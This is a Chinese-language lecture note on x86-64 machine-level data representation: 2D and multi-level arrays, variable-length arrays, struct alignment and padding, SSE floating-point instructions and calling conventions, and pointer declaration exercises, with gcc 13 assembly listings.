嵌套数组 int pgh[4][5] | 多级数组 int *univ[3] | |
|---|---|---|
| 元素地址 | ||
| 访存次数 | 1 次 | 2 次（先读行指针） |
| 各行位置 | 连续存放，行与行之间无间隔 | 各行独立分配，可以不相邻 |
| 各行长度 | 必须相同 | 可以不同（如三角矩阵、字符串数组） |
| 额外空间 | 无 | 每行一个 8 字节指针 |
sizeof(数组名) | 80 | 24（只是 3 个指针） |
| 典型例子 | int a[3][4]、矩阵 | char *argv[]、动态分配的每行 |
常见问题：二维数组能传给 int ** 形参吗？
不能。int pgh[4][5] 作为实参时退化为指向首行的指针，类型是 int (*)[5]；而 int ** 是“指向指针的指针”，对应的是 7.3 节的多级数组。两种写法在 C 代码中都写成 a[i][j]，但表 3 已经说明机器级访问方式完全不同。gcc 13 -Og 实测：形参为 int **a 时，a[i][j] 被编译为 movq (%rdi,%rsi,8), %rax 和 movl (%rax,%rdx,4), %eax，先读出 8 字节的行指针，再读元素；形参为 int (*a)[5] 时，则用两条 leaq 算出 a + 20i，只访存一次。
如果硬把 pgh 传给 int ** 形参，gcc 会给出 “passing argument 1 of … from incompatible pointer type” 警告。忽略警告运行时，函数会把 pgh 中相邻的两个 int 拼成一个“行指针”。以课件中 pgh 的数据为例，a[2] 读的是 pgh + 16 处的 8 字节，即 pgh[0][4] = 6（低 4 字节）与 pgh[1][0] = 1（高 4 字节），按小端拼成 0x100000006（实测），这不是一个有效地址，再解引用就会产生段错误。正确的做法是把形参写成 int a[][5] 或 int (*a)[5]，列数不固定时使用 7.4 节的变长数组形参。
7.4 N×N 矩阵的三种写法（课件 p.19–21）#
课件 p.19 比较了访问 N×N 矩阵元素的三种写法。第一种是固定维数，#define N 16，typedef int fix_matrix[N][N];，编译时就知道 N，行长 是常数，乘法可以用移位完成。第二种是变长、显式下标，传入一维指针 int *a 和维数 n，自己用宏 IDX(n,i,j) = (i)*(n)+(j) 计算下标，这是 C99 之前实现动态数组的传统做法。第三种是变长、隐式下标，即 C99 的变长数组（VLA）形参 int a[n][n]，n 必须在 a 之前声明；写法和固定维数一样自然，但行长 只有运行时才知道，必须用乘法指令。
# fix_ele（课件 p.20，与实测相同）：a in %rdi, i in %rsi, j in %rdx
salq $6, %rsi # 64*i
addq %rsi, %rdi # a + 64*i
movl (%rdi,%rdx,4), %eax # M[a + 64*i + 4*j]
ret
# var_ele（课件 p.21，与实测相同）：n in %rdi, a in %rsi, i in %rdx, j in %rcx
imulq %rdx, %rdi # n*i
leaq (%rsi,%rdi,4), %rax # a + 4*n*i
movl (%rax,%rcx,4), %eax # M[a + 4*n*i + 4*j]
ret
# vec_ele（gcc 13 -Og 实测）：a[IDX(n,i,j)]
imulq %rdi, %rdx # i*n
addq %rcx, %rdx # i*n + j
movl (%rsi,%rdx,4), %eax # M[a + 4*(i*n + j)]
ret可以看到，var_ele 与 vec_ele 的计算量完全一样（一次乘法、一次加法、一次访存），区别只在于 VLA 让编译器替我们写了 i*n+j。固定维数的版本省掉了乘法，这正是 p.21 强调的 “Must perform integer multiplication”。在循环中沿一列逐行前进（j 固定、i 递增）时，编译器还会把乘法化简为每次加一个行长的指针递增（教材 3.8.5 节、作业 3.66 都是这种形式）。
7.5 综合示例：用一维指针遍历二维数组（课件 p.22–23）#
课件 p.22 在 main 中定义了局部数组 pgh[4][5]，然后用 int *linear_zip = (int *) pgh; 把整个二维数组当作 20 个 int 的一维数组，用 int *zip2 = (int *) pgh[2]; 指向第 2 行的开头。由于行优先存放，一维下标 k 对应 pgh[k / 5][k % 5]，第 2 行开头对应一维下标 10：
| 项 | 对应的二维元素 | 值 |
|---|---|---|
pgh[0][0] | pgh[0][0] | 1 |
linear_zip[7] | 7 = 1×5 + 2 → pgh[1][2] | 2 |
*(linear_zip + 8) | 8 = 1×5 + 3 → pgh[1][3] | 1 |
zip2[1] | 10 + 1 = 11 = 2×5 + 1 → pgh[2][1] | 5 |
| 合计 | 9 |
程序输出 result: 9，与课件 p.23 一致（已实测）。这个例子说明：在机器看来，二维数组只是一段连续的 int，“第几行第几列”只是编译器在计算地址时用的说法。研讨题 1（9）会继续改写这个表达式。
7.6 结构体的表示与访问（课件 p.25–27）#
结构体在内存中是一整块连续区域，大小足以容纳所有字段。课件 p.25 强调了三点：字段按声明顺序排列，即使换一种顺序能更紧凑，编译器也不会调整；字段的位置和整个结构体的大小由编译器决定；机器级程序对源代码中的结构体一无所知，它看到的只是“基地址 + 常数偏移”。

图 4 课件 p.25：struct rec { int a[4]; size_t i; struct rec *next; } 的布局
再看字段中数组元素的地址（课件 p.26）。&r->a[idx] 的地址为 ，由于 a 的偏移为 0，一条 leaq (%rdi,%rsi,4),%rax 即可。如果字段 a 的偏移为 d，则会变成 leaq d(%rdi,%rsi,4),%rax——字段偏移就是寻址模式中的常数位移。
最后看遍历链表（课件 p.27）。这一页把 i 改成了 int i，偏移仍为 16，但只占 4 字节，其后有 4 字节填充，next 仍在 24。循环中 r->i 读出 int 后要符号扩展才能作下标，所以用 movslq；r->a[i] = val 写到 ；r = r->next 从偏移 24 处读出下一个结点的地址。
void set_val(struct rec *r, int val)
{
while (r) {
int i = r->i;
r->a[i] = val;
r = r->next;
}
}
# 课件 p.27（只给出循环体）
.L11: # loop:
movslq 16(%rdi), %rax # i = M[r+16]
movl %esi, (%rdi,%rax,4) # M[r+4*i] = val
movq 24(%rdi), %rdi # r = M[r+24]
testq %rdi, %rdi # Test r
jne .L11 # if != 0 goto loop
# gcc 13 -Og 实测：先 jmp .L13 跳到 testq/jne，循环体三条指令与课件完全相同课件给出的是 -O1 风格的 do-while 循环（只画了循环体，入口处的测试省略了），gcc 13 -Og 生成的是“跳转到中间”形式，二者循环体完全一致。
7.7 数据对齐（课件 p.28–35）#
对齐的基本原则是（课件 p.29）：若基本数据类型需要 K 字节，则它的地址必须是 K 的倍数。某些机器（如很多 RISC 处理器）要求必须对齐，否则产生异常；x86-64 不对齐也能正确执行，但建议对齐。原因在于：内存按（对齐的）4 或 8 字节块访问（与系统有关），跨越 8 字节边界的数据需要两次访问才能取全，效率低；跨越两个页的数据还会让虚拟内存的处理更复杂（第 21–22 讲）。编译器通过在结构体中插入空隙来保证每个字段都对齐。
表 4 课件 p.30：x86-64 各类型的对齐要求
| K | 类型（x86-64） | 地址要求 |
|---|---|---|
| 1 | char、unsigned char、bool | 无限制 |
| 2 | short | 最低 1 位为 0 |
| 4 | int、float | 最低 2 位为 00 |
| 8 | long、double、指针（char * 等） | 最低 3 位为 000 |
| 16 | long double（GCC on Linux） | 最低 4 位为 0000 |
结构体的对齐规则（课件 p.31）可以归纳为两条：（1）内部规则要求每个字段的偏移必须是该字段对齐要求的倍数，不满足时在前面插入填充（internal padding）；（2）整体规则要求结构体自身的对齐要求 K 等于其所有字段中最大的对齐要求，结构体的起始地址和总长度都必须是 K 的倍数，总长度不足时在末尾补齐（external padding）。用公式表示，若当前已用到偏移 o，下一个字段的对齐要求为 k，则该字段的偏移为
结构体的总大小为最后一个字段的结束位置向上取整到 K 的倍数。以课件 p.28 的 S1 为例：c 在 0；int 数组 i 要 4 对齐，跳过 3 字节放在 4～11；double v 要 8 对齐，跳过 4 字节放在 16～23；K = 8，总长 24 已是 8 的倍数（图 5）。如果不对齐，紧凑排列只需 17 字节。

图 5 课件 p.28/31：struct S1 { char c; int i[2]; double v; } 的不对齐与对齐布局
课件 p.32 的 S2 把字段顺序倒过来：v 在 0，i 在 8～15，c 在 16，此时已用 17 字节，但 K = 8，总长要取整到 24，末尾补 7 字节（图 6）。为什么末尾也要填充？看课件 p.33 的结构体数组 struct S2 a[10]：a[1] 紧接着 a[0] 存放，起始于 a + 24；若 S2 只有 17 字节，a[1].v 就会落在 a + 17，不是 8 的倍数。只有总长度是 K 的倍数，数组中每个元素的每个字段才都能对齐。

图 6 课件 p.32：struct S2 { double v; int i[2]; char c; } 的末尾填充
再看如何访问结构体数组的元素（课件 p.34）。struct S3 { short i; float v; short j; } a[10]; 中 i 在 0、v 在 4、j 在 8，总长 12（K = 4）。a[idx].j 的地址为 ：先用 leaq (%rdi,%rdi,2),%rax 算 3·idx，再用 movzwl a+8(,%rax,4),%eax 以比例因子 4 得到 12·idx，并把字段偏移 8 合并到位移 a+8 中。符号 a 的实际地址要到链接时才确定（课件“Resolved during linking”），汇编器只记下“a 再加 8”。读 short 用 movzwl 零扩展到 32 位——函数返回 short，调用者只看 %ax，高位填什么都可以，gcc 选择了零扩展。实测时 idx 是 int，前面同样多一条 movslq。

图 7 课件 p.34：struct S3 的布局，j 在偏移 8
为了节省空间，应把对齐要求大的字段放在前面（课件 p.35）。把对齐要求大的字段放在前面。S4 {char c; int i; char d;} 需要 12 字节，其中 6 字节是填充；改成 S5 {int i; char c; char d;} 后只需 8 字节（图 8）。更一般的规则是：按对齐要求从大到小排列字段，可以使填充最少。

图 8 课件 p.35：调整字段顺序可以减少填充
★ 对齐要点
对基本类型，地址是自身大小 K 的倍数（long double 在 Linux 上是 16）。
对字段，偏移 = 向上取整到该字段对齐要求的倍数；数组字段按元素类型对齐；嵌套结构体按其自身的 K 对齐。
对整个结构体，K = 字段中最大的对齐要求；起始地址和 sizeof 都是 K 的倍数。
编译器不会重排字段（C 标准要求按声明顺序），节省空间要靠程序员按对齐要求从大到小排列。
常见问题：结构体中嵌套结构体或数组时，按什么对齐？
嵌套的结构体按它自身的对齐要求 K（即它的字段中最大的对齐要求）对齐，而不是按它的大小对齐；数组字段按元素类型对齐。用 offsetof 实测三个外层结构相同的例子 struct { char c; struct … s; char e; }：内层为 { char a[5]; } 时 K = 1、大小 5，s 紧接在偏移 1，e 在偏移 6，外层共 7 字节，没有任何填充；内层为 { int i; char d; } 时 K = 4、大小 8，s 在偏移 4，e 在偏移 12，外层取整到 4 的倍数共 16 字节；内层为 { double v; char d; } 时 K = 8、大小 16，s 在偏移 8，e 在偏移 24，外层共 32 字节。
注意第二个例子中 e 在 12 而不是 9：内层结构体末尾的 3 字节填充属于内层本身，sizeof 已经把它算在内，外层的下一个字段不能“借用”这段空间。数组字段的例子是 struct { char c; short a[3]; }：a 虽然有 6 字节，但只需按 short 的 2 字节对齐，偏移为 2，总大小为 8。判断任何嵌套布局时只需反复问两个问题：这个字段（或数组元素、内层结构体）要求几字节对齐？外层的 K 是所有这些要求中的最大值。
7.8 浮点数的机器级表示（课件 p.37–42）#
先看历史背景（课件 p.37）。x86 的浮点运算经历了三代。最早的 x87 是一个基于 8 个寄存器组成的“栈”的协处理器指令集，使用 80 位扩展精度，编程模型很别扭，现在只在 long double 中还会用到；SSE（Streaming SIMD Extensions）引入了 XMM 寄存器，本为向量（SIMD）运算设计，标量浮点运算是它的一种特殊用法；AVX 是最新一代，把寄存器扩展为 256 位的 YMM（AVX-512 为 512 位的 ZMM），指令与 SSE 类似但多一个 v 前缀且通常采用三操作数形式，教材 3.11 节以 AVX 为准（如 vaddsd %xmm1,%xmm0,%xmm0）。课件采用 SSE 形式，也就是 gcc 在不加 -mavx 时的默认输出。
XMM 寄存器（课件 p.38，图 9）共有 16 个（%xmm0～%xmm15），每个 16 字节（128 位）。同一个寄存器可以看作 16 个单字节整数、8 个 16 位整数、4 个 32 位整数、4 个单精度浮点数、2 个双精度浮点数，或只用最低位置的 1 个单精度/双精度浮点数。

图 9 XMM 寄存器中数据的几种存放方式（课件 p.38）
标量与 SIMD 运算的区别在指令后缀上（课件 p.39）：指令后缀由两个字母组成，第一个字母表示 s（scalar，标量，只算最低位置的一个数）或 p（packed，打包，所有位置同时运算），第二个字母表示 s（single，单精度 float）或 d（double，双精度）。addss 只把最低 32 位的两个 float 相加；addps 把 4 对 float 同时相加，这就是 SIMD（Single Instruction Multiple Data，单指令多数据）；addsd 只把最低 64 位的两个 double 相加（图 10）。标量运算指令（如 addss、addsd）不改变目标寄存器其余的位（但 movss/movsd 从内存加载时会把其余位清零）。

图 10 课件 p.39：addss、addps、addsd 对 XMM 寄存器的使用
浮点调用约定与整数不同（课件 p.40）：浮点参数依次放在 %xmm0、%xmm1、……（最多 8 个，%xmm0～%xmm7），浮点返回值放在 %xmm0，所有 XMM 寄存器都是调用者保存的。整数和指针参数仍按第 6 讲的规则使用 %rdi、%rsi 等，两类参数各自独立编号：例如 f(int a, double b, long *c) 中 a 在 %edi、b 在 %xmm0、c 在 %rsi。
float fadd(float x, float y) double dadd(double x, double y)
{ return x + y; } { return x + y; }
# x in %xmm0, y in %xmm1 # x in %xmm0, y in %xmm1
addss %xmm1, %xmm0 addsd %xmm1, %xmm0
ret ret浮点数的内存访问使用专门的 mov 指令（课件 p.41）。浮点数在内存与 XMM 寄存器之间、XMM 寄存器之间都用专门的 mov 指令：movss/movsd 在内存和寄存器之间传送单个 float/double，movaps/movapd 在两个 XMM 寄存器之间复制整个 128 位（a 表示 aligned）。dincr 的课件版本与 gcc 13 实测版本只是寄存器分工不同：
double dincr(double *p, double v) # 课件 p.41：p in %rdi, v in %xmm0
{ movapd %xmm0, %xmm1 # Copy v
double x = *p; movsd (%rdi), %xmm0 # x = *p
*p = x + v; addsd %xmm0, %xmm1 # t = x + v
return x; movsd %xmm1, (%rdi) # *p = t
} ret
# gcc 13 -Og 实测：
movsd (%rdi), %xmm1 # x = *p 放到 %xmm1
addsd %xmm1, %xmm0 # %xmm0 = v + x
movsd %xmm0, (%rdi) # *p = v + x
movapd %xmm1, %xmm0 # 返回值 x
ret其他方面还有几点（课件 p.42）：浮点指令非常多（不同运算、不同格式、类型转换 cvt 系列等）。浮点比较使用 ucomiss/ucomisd（以及会对 QNaN 报异常的 comiss/comisd），它们设置 ZF、PF、CF 三个条件码，并把 OF、SF 清零；比较结果按无符号整数比较的方式编码，所以后面用 ja、jb、jbe 等无符号条件跳转。PF（奇偶标志）在这里被借来表示“无序”，即至少有一个操作数是 NaN。
表 5 课件 p.42：ucomisd S, D 按 D 与 S 的关系设置条件码
| 比较结果 | ZF | PF | CF | 可用的跳转 |
|---|---|---|---|---|
| 无序（有 NaN） | 1 | 1 | 1 | jp |
| 大于 | 0 | 0 | 0 | ja |
| 小于 | 0 | 0 | 1 | jb（同样需排除 PF = 1：无序时 CF 也为 1） |
| 等于 | 1 | 0 | 0 | je（需同时排除 PF = 1） |
浮点常量的处理方式比较特殊：浮点指令不能使用立即数。把寄存器清零可以用 xorpd %xmm0,%xmm0（gcc 常生成等效的 pxor），其他常量则由编译器放在只读数据段（如标号 .LC0），再用 movsd .LC0(%rip),%xmm1 从内存读入。
具体例子：混合参数、类型转换与浮点常量#
课件的 fadd 和 dincr 各只有一两种参数，还看不出两类参数如何“分开编号”，也没有出现类型转换和浮点常量。下面的函数 mix 有五个参数，整数类与浮点类交错出现，表达式里同时有 int、long、float、double 四种类型，还用到一个浮点常量 0.5，正好把本节的调用约定、cvt 转换和常量加载放在一起看。先看参数放在哪里（图 11）。规则是整数类（包括所有指针）和浮点类各自按出现顺序占用自己的寄存器，互不影响：a 是第一个整数类参数，用 %rdi，由于它是 int，只占低 32 位 %edi；p 虽然指向 float，但它本身是一个地址，属于整数类，用第二个整数寄存器 %rsi；c 是第 4 个参数，却只是第 3 个整数类参数，所以在 %rdx 而不是 %rcx；b 是第 3 个参数，却是第一个浮点参数，所以在 %xmm0；d 是第二个浮点参数，在 %xmm1。返回值是 double，放在 %xmm0。

图 11 mix 的参数分配：整数类与浮点类各自按出现顺序编号
double mix(int a, float *p, mix:
double b, long c, movapd %xmm0, %xmm2 # %xmm2 = b
float d) pxor %xmm0, %xmm0 # 清零
{ cvtsi2sdl %edi, %xmm0 # (double)a
return a * b mulsd %xmm2, %xmm0 # a * b
+ *p * d mulss (%rsi), %xmm1 # *p * d（float）
- c * 0.5; cvtss2sd %xmm1, %xmm1 # 转成 double
} addsd %xmm1, %xmm0 # 相加
pxor %xmm1, %xmm1 # 清零
cvtsi2sdq %rdx, %xmm1 # (double)c
mulsd .LC0(%rip), %xmm1 # c * 0.5
subsd %xmm1, %xmm0 # 结果在 %xmm0
ret
.LC0: # 常量 0.5
.long 0 # 低 4 字节
.long 1071644672 # 高 4 字节表 6 取 a = 3、*p = 1.5、b = 2.5、c = 7、d = 4.0，逐条跟踪 XMM 寄存器的变化，结果 10.0 与实际运行一致。这几个数都能被 float 和 double 精确表示，中间结果也不需要舍入，便于看清每一步。
表 6 mix(3, &p, 2.5, 7, 4.0f) 的执行过程（*p = 1.5f）
| 指令 | 执行后 | 说明 |
|---|---|---|
movapd %xmm0, %xmm2 | %xmm2 = 2.5 | 把 b 挪走，腾出 %xmm0 用来计算并存放结果 |
pxor %xmm0, %xmm0 | %xmm0 = 0 | 把整个 128 位寄存器清零（原因见下文） |
cvtsi2sdl %edi, %xmm0 | %xmm0 = 3.0 | 把 32 位整数 a 转换成 double |
mulsd %xmm2, %xmm0 | %xmm0 = 7.5 | a * b，按 double 计算 |
mulss (%rsi), %xmm1 | %xmm1 = 6.0f | *p * d，按 float 计算；内存操作数可以直接作源 |
cvtss2sd %xmm1, %xmm1 | %xmm1 = 6.0 | float 转换成 double |
addsd %xmm1, %xmm0 | %xmm0 = 13.5 | a * b + *p * d |
pxor %xmm1, %xmm1 | %xmm1 = 0 | 清零，准备转换 c |
cvtsi2sdq %rdx, %xmm1 | %xmm1 = 7.0 | 把 64 位整数 c 转换成 double |
mulsd .LC0(%rip), %xmm1 | %xmm1 = 3.5 | 乘以从内存读出的常量 0.5 |
subsd %xmm1, %xmm0 | %xmm0 = 10.0 | 最终结果，留在 %xmm0 中返回 |
这段代码有几处细节值得逐一说明。第一，类型转换的位置严格遵循 C 的语义。 a * b 中 a 是 int、b 是 double，a 先转换成 double 再相乘，所以是 cvtsi2sdl 加 mulsd；*p * d 两边都是 float，C 规定按 float 计算，所以用单精度的 mulss，乘完之后才用 cvtss2sd 转成 double 参与加法。这一点会影响结果：取 *p = 16777215.0f、d = 3.0f，精确乘积 50331645 落在 与 之间，那里相邻 float 的间隔是 4，乘积被舍入为 50331644；实测 mix(0, &q, 0, 0, 3.0f) 返回 50331644，而直接用 double 计算 (double)q * 3.0 得到 50331645。第二，cvt 指令的后缀表示源操作数的宽度： cvtsi2sdl 的源是 32 位整数（int），cvtsi2sdq 的源是 64 位整数（long）。第三，转换之前先用 pxor 清零。 cvtsi2sd 只写目的寄存器的低 64 位，高 64 位保持原值，这使它在硬件看来“依赖”目的寄存器原来的内容；先用 pxor 把整个寄存器清零，可以切断这种并不真实存在的依赖，让处理器不必等待前面的指令。
第四，浮点常量只能放在内存里。 浮点指令不能带立即数，所以 gcc 把 0.5 放在只读数据区的标号 .LC0 处，用 mulsd .LC0(%rip) 以 PC 相对寻址的方式读取。.LC0 处的两个 .long 合起来就是 0.5 的 double 编码：x86-64 是小端，先放低 4 字节 0，再放高 4 字节 1071644672 = 0x3FE00000，拼起来是 0x3FE0000000000000，其中 s = 0，exp = 0x3FE = 1022，E = 1022 − 1023 = −1，frac = 0，值为 = 0.5（第 3 讲）。第五，整个函数没有栈帧。 所有中间值都放在调用者保存的 XMM 寄存器中，mix 不调用其他函数，因此不需要保存任何寄存器，也不需要移动 %rsp。
★ 浮点部分要点
16 个 128 位 XMM 寄存器；后缀 ss / sd 为标量单 / 双精度，ps / pd 为打包（SIMD）。
浮点参数 %xmm0～%xmm7，返回值 %xmm0，全部调用者保存；整数参数与浮点参数分别编号。
内存↔寄存器用 movss / movsd，寄存器之间用 movaps / movapd；常量从内存加载，0 用异或得到。
比较用 (u)comiss / (u)comisd，设置 ZF、PF、CF，配合无符号跳转；PF = 1 表示有 NaN。
7.9 附加：理解指针与数组（课件 p.45–51）#
课件附加页给出了一组声明（图 12画出了其中四个声明实际分配的存储，对应课件 p.46、p.48 的示意图），要求对表达式 An、*An、An（、*An）判断三件事：能否通过编译（Cmp）、是否可能产生坏的指针引用（Bad，即解引用一个可能未初始化或指向未分配内存的指针），以及 sizeof 的值（Size）。判断的关键是读懂声明：从变量名出发，先向右看 []，再向左看 *，括号改变优先级。例如 int (*A3)[3] 是“一个指针，指向含 3 个 int 的数组”，int *A2[3] 是“含 3 个指针的数组”，int (*A5[3])[5] 是“含 3 个指针的数组，每个指针指向含 5 个 int 的数组”。

图 12 四个声明分别分配了哪些存储（实线为已分配，虚线为指针可能指向、但并未分配的空间）
然后按两条规则判断：Bad——只声明了指针而没有让它指向任何已分配的空间时，解引用它就“可能是坏引用”；数组本身是已分配的，对数组名取 * 只是取它的第一个元素，不是坏引用。Size——sizeof 作用于数组得到整个数组的字节数，作用于指针得到 8；*An 的类型就是 An 去掉一层后的类型。以下结果全部与 gcc 实测的 sizeof 一致：
表 7 课件 p.46、48、51 的答案汇总（Cmp / Bad / Size）
| 声明 | An Cmp/Bad/Size | *An Cmp/Bad/Size | **An Cmp/Bad/Size | ***An Cmp/Bad/Size |
|---|---|---|---|---|
int A1[3] | Y / N / 12 | Y / N / 4 | N / – / – | — |
int *A2 | Y / N / 8 | Y / Y / 4 | N / – / – | — |
int *A2[3] | Y / N / 24 | Y / N / 8 | Y / Y / 4 | — |
int (*A3)[3] | Y / N / 8 | Y / Y / 12 | Y / Y / 4 | — |
int (*A4[3]) | Y / N / 24 | Y / N / 8 | Y / Y / 4 | — |
int A1[3][5] | Y / N / 60 | Y / N / 20 | Y / N / 4 | N / – / – |
int *A2[3][5] | Y / N / 120 | Y / N / 40 | Y / N / 8 | Y / Y / 4 |
int (*A3)[3][5] | Y / N / 8 | Y / Y / 60 | Y / Y / 20 | Y / Y / 4 |
int *(A4[3][5]) | Y / N / 120 | Y / N / 40 | Y / N / 8 | Y / Y / 4 |
int (*A5[3])[5] | Y / N / 24 | Y / N / 8 | Y / Y / 20 | Y / Y / 4 |
这段结果里有几个值得体会的地方：int (*A4[3]) 中的括号是多余的，它与 int *A4[3] 完全相同，int *(A4[3][5]) 与 int *A2[3][5] 也相同——课件特意用它们提醒“括号不一定改变含义”。int (*A3)[3] 中，*A3 的类型是 int[3]，sizeof 为 12，虽然 A3 本身只是个 8 字节的指针；sizeof 只看类型，不会真的去解引用，所以 sizeof(*A3) 永远不会出错，但在运行时访问 *A3 的元素就可能是坏引用。最后，凡是解引用到 int 的那一层都不能再加 *，因此“比维数多一层”的表达式编译失败（N）。
本讲小结（课件 p.43）#
